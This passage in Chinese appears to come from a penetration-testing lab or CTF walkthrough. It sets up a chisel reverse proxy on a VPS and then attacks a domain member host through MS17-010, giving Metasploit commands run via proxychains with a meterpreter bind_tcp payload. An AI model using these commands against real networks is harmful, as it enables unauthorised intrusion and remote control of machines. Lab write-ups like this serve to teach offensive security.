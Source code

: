 ## 代理搭建

使用 chisel 搭建代理。

VPS

```plain
./chisel server -p 7000 -reverse
```

[![](assets/1705989181-22580c375d0ef42c85e8b90826ed222a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122170003-a142f0d2-b904-1.png)

靶机

[![](assets/1705989181-1383a88a3cbcb4bcba749c5f715ba1b5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122170008-a4352eea-b904-1.png)

## 攻击域成员一 (MS17-010)

### MSF 攻击

刚刚 Fscan 扫描出了漏洞，直接用 msf 打就好了

```plain
proxychains msfconsole
set payload windows/x64/meterpreter/bind_tcp
set RHOSTS 172.22.11.45
run
```
